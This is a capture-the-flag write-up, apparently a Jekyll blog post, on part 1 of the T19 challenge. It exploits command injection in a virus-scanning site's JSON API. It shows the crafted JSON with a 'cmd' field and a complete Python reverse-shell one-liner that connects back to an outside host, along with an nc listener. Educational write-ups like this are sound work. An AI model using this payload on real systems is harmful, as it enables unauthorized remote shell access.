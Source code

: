 ```yaml
---
layout: post
title: T19 Challenge (Part 1)
---
```


The T19 Challenge was hosted by [Twistlock Labs](https://www.twistlock.com/labs/) last week on [http://t19challenge.com/](http://t19challenge.com/).

> Welcome. 
>
> Our company developed a unique Linux binary called "cat". We recently discovered that our competitors from the Antivirus company VirusExpress are blocking our cat binary. It is now signed as a **virus**. Word is that you are a badass security researcher. We need you to **infilitrate their server** and **empty their database**.

There are 3 parts of varying difficulty to this challenge. The vulnerabilities may look simple, but are really challenging to exploit.

In summary, we are provided with a virus scanning [site](http://virus.express/), which we must exploit a **command injection vulnerability** to gain access to the server. After which, we could escalate privileges by exploiting a **buffer overflow vulnerability**, in a setuid binary that acts as a client to the virus database. Finally, we gain root access by exploiting a **buffer overflow vulnerability** in the database service ran by the root user.

This post is about the getting the first flag of the challenge, by exploiting a command injection vulnerability in the virus uploading API. 

If you would like to skip this part, here are the links to [part 2][part2] and [part 3][part3].

### Recon
The target, [virus.express](http://virus.express/), has a simple interface, allowing a user to upload a binary and check whether it is a virus.

![website][website-screenshot]

![danger][danger-screenshot]

Viewing the source, I found an interesting `TODO` left by the devs.

```html
2. Add documentation on the experimental JSON API on /api
```

Opening [virus.express/api](http://virus.express/api) in the browser gives the following response.

```json
{"success":false,"response":"Please deliver something next time."}
```

### Exploring the API
To ease poking around with the API, I intercepted the request with Burp. Through trial and error, by changing from `GET` to `POST` request, adding a `Content-Type: application/json` header, and sending a dummy `{"hello": "world"}` as data, the following error page is returned.

![error][error-screenshot]

It looks like the program errored out at the line

`response = {:success=>true, :response=>(is_virus? body[:file][:hash], body[:file][:name], body[:cmd])}`

It looks like we are expected a JSON object with fields `cmd` and `file`, where `file` is another object consisting of fields `hash` and `name`. So, we can modify our data to be 

```json
{
    "cmd": "ls", 
    "file": {
        "hash": "hello", 
        "name": "hello"
    }
}
```

![hash-error][hash-error-screenshot]

Another error. But this time, it looks like really good information. In particular, we can see the following line

`` `#{cmd} "#{encoded}" "#{filename}"` ``

In ruby, putting backticks around a string is to execute it as a shell command. This means we got arbitrary code execution!

But before that, the error needs to resolved so that we can execute what we want. It turns out that the `hash` is being passed into `Z85rb.encode()`, which expects a string with length of a multiple of 4. A simple fix is to set both `hash` and `name` as empty strings, so that they do not interfere with our `cmd`.

### Getting a reverse shell
Interacting with the server by constantly changing the `cmd` field is not a good experience. A more convenient method is to spawn a reverse shell.

Unfortunately, as with usual production machines, this one does not have `netcat` installed, which is used most often when trying to create a reverse shell. Nevertheless, we can go through this [reverse shell cheat sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and try the commands one by one.

In the end, the `python` one worked out for me.

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

I just need to run `nc -lvp 8000` on a VPS, send to /api `cmd` set as the command above, and I get a shell to the server as user `rubyist`.

<script id="asciicast-lE2IirQBegq5Wb3ZgbtlU3zv3" src="https://asciinema.org/a/lE2IirQBegq5Wb3ZgbtlU3zv3.js" async></script>

---

In [part 2][part2], we exploit a buffer overflow in a setuid binary to escalate privileges as `ben`.

Actually, I'm not sure if it is even right to say that there is a command injection vulnerability, since we don't need to tweak the input to execute our command.

If there is anything unclear, feel free to leave a comment below.

[part2]:/t19-challenge-2.html
[part3]:/t19-challenge-3.html
[website-screenshot]:{{site.baseurl}}/ctfs/t19/part1/images/website.png
[danger-screenshot]:{{site.baseurl}}/ctfs/t19/part1/images/danger.png
[error-screenshot]:{{site.baseurl}}/ctfs/t19/part1/images/error.png
[hash-error-screenshot]:{{site.baseurl}}/ctfs/t19/part1/images/hash-error.png